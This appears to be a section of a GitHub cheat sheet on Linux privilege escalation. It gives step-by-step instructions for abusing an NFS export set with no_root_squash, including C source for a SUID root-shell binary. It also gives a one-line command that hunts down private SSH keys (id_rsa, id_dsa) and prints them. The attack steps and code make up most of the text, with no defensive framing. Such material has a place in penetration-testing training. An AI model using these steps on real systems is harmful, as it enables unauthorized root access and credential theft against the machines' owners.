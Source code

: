 <hr style="width:80%;text-align:left;margin-center:0">

## Network File Share

  - The list of all the fielsystems which may be exported is present in ``/etc/exports``.


  - Check for ``no_root_squash``.

  - By using `showmount` you can see the mountable shares in your attack machine. 


  - Then just mount the shared to your attack machine by 👉🏻 ``mount -o rw {ip of target}:{mountable dir} /{dir of ur attack machine}``


  - Just create a executable with SUID bit set in that folder which can run /bin/bash on the target system check this [nfs.c](https://github.com/Somchandra17/Privilege-Escalation-For-Linux/blob/main/nfs.c) for example 

```
int main()
{setgid(0);
 setuid(0);
 system("/bin/bash");
 return 0;
}
```


  - Just compile it and run it from the target system.


## SSH misconfigured Keys

```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa
```
  - [ssh misconfigured](https://steflan-security.com/linux-privilege-escalation-exploiting-misconfigured-ssh-keys/)


Thanks for reading.

